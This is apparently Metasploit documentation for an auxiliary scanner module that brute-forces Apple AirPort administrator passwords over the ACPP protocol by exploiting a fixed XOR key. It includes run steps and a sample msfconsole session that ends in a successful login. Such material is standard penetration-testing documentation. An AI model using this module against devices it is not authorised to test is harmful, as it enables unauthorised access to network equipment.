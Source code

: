 ## Vulnerable Application

ACPP is an undocumented and proprietary Apple protocol found in Airport products which protects the credentials used to administer the device. This module attempts exploit a weak encryption mechanism (fixed XOR key) by brute forcing the password via a dictionary attack or specific password.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/acpp/login)

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/acpp/login`
  3. set RHOSTS [ip]
  4. Do: `run`

## Scenarios

### Apple AirPort Extreme 802.11g

  ```
  msf > use auxiliary/scanner/acpp/login
  msf auxiliary(scanner/acpp/login) > show options
  msf auxiliary(scanner/acpp/login) > set RHOSTS 1.1.1.1
      RHOSTS => 1.1.1.1
  msf auxiliary(scanner/acpp/login) > set PASSWORD myPassword
      PASSWORD => myPassword
  msf auxiliary(scanner/acpp/login) > run
    [*] 1.1.1.1:5009 - 1.1.1.1:5009 - Starting ACPP login sweep
    [*] 1.1.1.1:5009 - 1.1.1.1:5009 - ACPP Login Successful: myPassword
  ```
